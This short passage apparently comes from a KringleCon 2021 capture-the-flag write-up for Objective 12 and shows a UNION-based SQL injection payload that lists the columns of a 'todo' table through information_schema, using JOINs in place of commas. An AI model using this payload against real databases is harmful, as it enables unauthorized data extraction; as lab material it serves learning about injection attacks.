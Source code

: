 ![Objective12 dump tables](/assets/kringlecon2021/objective12/objective12_dumptables.jpg)



Dump columns in the todo table
{% highlight sql %}
(1),(1) union select * from (select 1)UT1 JOIN (SELECT column_name FROM information_schema.columns WHERE table_name = 'todo')UT2 on 1=1 JOIN (SELECT 3)UT3 on 1=1 JOIN (SELECT 4)UT4 on 1=1 JOIN (SELECT 5)UT5 on 1=1 JOIN (SELECT 6)UT6 on 1=1 JOIN (SELECT 7)UT7 on 1=1--
{% endhighlight %}
